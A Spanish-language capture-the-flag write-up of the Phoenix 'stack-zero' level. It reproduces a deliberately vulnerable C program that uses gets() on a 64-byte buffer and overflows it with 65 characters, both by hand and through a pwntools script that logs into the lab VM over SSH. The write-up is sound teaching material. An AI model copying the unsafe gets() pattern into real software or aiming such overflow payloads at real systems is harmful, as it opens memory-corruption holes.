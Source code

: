 ```yaml
---
layout: single
title: "stack-zero"
permalink: /pwn/phoenix/stack-zero/
parent: Phoenix
comments: true
excerpt: "stack-zero"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```



# stack-zero

Este nivel introduce el concepto de que se puede acceder a la memoria fuera de su región asignada, cómo se disponen las variables de la pila y que la modificación fuera de la memoria asignada puede modificar la ejecución del programa.

```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

se ejecuta el binario y se le pasa un valor para ver el resultado

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
A
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

Como vemos en el código dice que el buffer es de 64, así que imprimimos 65 caracteres en este caso 65 A

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

Enviamos este valor y vemos que realizamos el desbordamiento del buffer 

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

Una vez que se realiza en local de forma manual, vamos a realizar un exploit para la explotación de este reto 

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ #Define Las Varibles
   5   │ payload = b'A' * 65
   6   │ 
   7   │ # Se conecta al servidor por SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ # Ejecuta el programa remoto
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-zero'])
  12   │ 
  13   │ # Envía el payload 
  14   │ process.sendline(payload)
  15   │ 
  16   │ # captura la respuesta y la envía
  17   │ flag = process.recvall().decode()
  18   │ log.success("Output: " + flag)
  19   │ 
  20   │ # Cierra el proceso
  21   │ process.close()
  22   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

Ejecución del exploit

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 526
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-zero'!
[+] Receiving all data: Done (128B)
[*] Stopped remote process 'stack-zero' on localhost (pid 526)
[+] Output: Welcome to phoenix/stack-zero, brought to you by https://exploit.education
    Well done, the 'changeme' variable has been changed!
```